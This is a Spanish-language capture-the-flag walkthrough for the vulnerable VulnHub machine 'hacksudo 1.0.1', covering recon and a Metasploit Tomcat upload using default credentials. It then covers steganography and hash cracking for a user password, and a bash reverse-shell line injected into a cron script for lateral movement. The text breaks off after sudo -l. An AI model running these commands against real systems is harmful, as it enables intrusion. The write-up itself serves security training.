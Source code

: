 <h1 align="center">
<br>
  <img src="https://anaparrillablog.files.wordpress.com/2016/04/cayo-julio-cc3a9sar-imperio-romano.png?w=656" alt="Front-End Checklist" width="200">
  <br>
  HACKSUDO: 1.0.1
  <br>
</h1>

<h4 align="center">Maquina creada por <img src="https://img.icons8.com/fluent/344/email-open.png" alt="Front-End Checklist" width="20">vishal@hacksudo.comr</h4>
<h4 align="center">Aquí puedes descargarte la <a href="https://www.vulnhub.com/entry/hacksudo-101,650/">página web</a> y ver una descripción de ella</h4>

---

# Índice

- [Recopilación de información](#recopilación-de-información)
  - [Nmap](#nmap)
  - [Fuzz / Whatweb](#)
- [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades)
  - [Tomcat](#)
- [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades)
  - [Reverse Shell](#)
- [Post-explotación](#post-explotación)
  - [Movimiento Lateral I](#)
  - [Movimiento Lateral II](#)
       - [linPEAS](#)
       - [Reverse Shell](#)
  - [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades-1)
       - [SUDO -L](#)
  - [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades-1)
       - [SCP](#)
- [Información Adicional](#información-adicional)


---

## Recopilación de información

Aquí veremos que esta conectado a la subred, los puerto abiertos, las paginas web, etc.

### Nmap
Veremos que redes estan conectadas a esta subred con este comando:

```nmap -sP 192.168.221.0/24```

Para ver los puertos abiertos que tiene la red utilizaremos este comando:

```nmap -sV -sC 192.168.221.9```

### Fuzz / Whatweb
Para fuzzear la web usaremos este comando con una wordlist que tengamos:

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.221.9/FUZZ```

Para ver solo archivos con extensión .txt,.php,.html

```
ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.221.9/FUZZ -e .txt,.html,.php -ic
```

Con este comando podemos recolectar información de un servidor web:
```whatweb http://192.168.221.9```

## Búsqueda de vulnerabilidades

### Tomcat

El login del tomcat lo hemos encontrado en esta url: ```http://192.168.221.9:8080/manager```

En esta [página web ](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) encontramos las credenciales por defecto.

Conseguimos conectarnos con las credenciales por defecto: 
```
User: tomcat
Password: tomcat
```
## Explotación de vulnerabilidades

### Reverse Shell

Para obtener un reverse shell buscaremos en el metasploit la version del tomcat que podemos verlo en la página web del tomcat.

Dentro del metasploit escribiremos esto:
```
use multi/http/tomcat_mgr_upload
set lhost 192.168.221.4
set rport 8080
set HttpPassword tomcat
set HttpUsername tomcat
set rhosts 192.168.221.9
exploit
```
Con esto obtendremos control del usuario **www-data**

## Post-explotación

## Movimiento Lateral I

Después de algo de enumeración encontramos en la carpeta **/var** una que se llama **backups/hacksudo**

Dentro tenemos unos archivos:
```log.txt```, ```hacksudo.zip``` y ```vishal.jpg```

En el archivo **log.txt** aparece esto:
```
ilovestegno
```

> Lo tomaremos como una pista para saber que hay un proceso de **esteganografía**

En el archivo **hacksudo.zip** no tenemos nada importante

Lo que haremos con este archivo **vishal.jpg**, és extraer los datos ocultos con la herramienta [Stegseek](https://github.com/RickdeJager/stegseek)

Usaremos este comando con docker:

```sudo docker run --rm -it -v "$(pwd):/steg" rickdejager/stegseek vishal.jpg rockyou.txt```

> ⚠️ IMPORTANTE: Tener tanto el archivo vishal.jpg como el wordlist que usaremos en la misma carpeta

Esto es lo que recibimos al ejecutar el comando anterior:

<img src="https://i.gyazo.com/e509cd614352dd3dacfa16f7349f2ef4.png">

Siguiendo leeremos el archivo .out que muestra esto concretamente:

```
onpxhc bs unpxfhqb znpuvar hfre
hfre ivfuny
cnffjbeq 985nn195p09so7q64n4oo24psr51so1s13rop444p494r765rr99q6p3rs46557p757787s8s5n6r0260q2r0r846q263sosor1311p884oo0os9792s8778n4434327
```

Tras una buena búsqueda entendemos que puede estar cifrado en **ROT13**, sabiendo esto lo pasaremos por el [CyberChef](https://gchq.github.io/CyberChef/) y nos dara este resultado:

```
backup of hacksudo machine user
user vishal
password 985aa195c09fb7d64a4bb24cfe51fb1f13ebc444c494e765ee99d6c3ef46557c757787f8f5a6e0260d2e0e846d263fbfbe1311c884bb0bf9792f8778a4434327
```

Con esto copiaremos el hash de la password y la llevaremos a [CrackStation](https://crackstation.net/) y este sera el resultado:

```
Result: hacker
```

Con esto ya tenemos las credenciales del usuario **vishal**

Con el comando ```su vishal``` y poniendo la contraseña sacada anteriormente completaremos el primer Movimiento Lateral.


## Movimiento Lateral II

### linPEAS

Para el siguiente Movimiento Lateral para convertirnos como el usuario hacksudo primero pasaremos el [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) para ver que podemos recibir

Buscando la información sacada por parte de [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) encontramos esta línea:

```
*/1 *   * * *   hacksudo /home/hacksudo/./getmanager
```

Lo que haremos es leer ese archivo a ver que podemos encontrar.

En este caso encontraremos otra dirección que es esta: ```/home/vishal/office/manage.sh```

### Reverse Shell

Leeremos el archivo viendo que esta en bash y le añadiremos una reverse shell para ver si podemos escalar privilegios.

Usaremos este reverse shell: ```bash -i >& /dev/tcp/192.168.221.4/4444 0>&1```

Y obviamente podremos un puerto en escucha: ```rlwrap nc -nvlp 4444```

Con esto finalizamos el segundo Movimiento Lateral para conseguir el usuario **hacksudo**

## Búsqueda de vulnerabilidades

### SUDO -L

Para ver que puede ejecutar este usuario como root usaremos el comando ```sudo -l```

El resultado es este:
```
(root) NOPASSWD: /usr/bin/scp
```
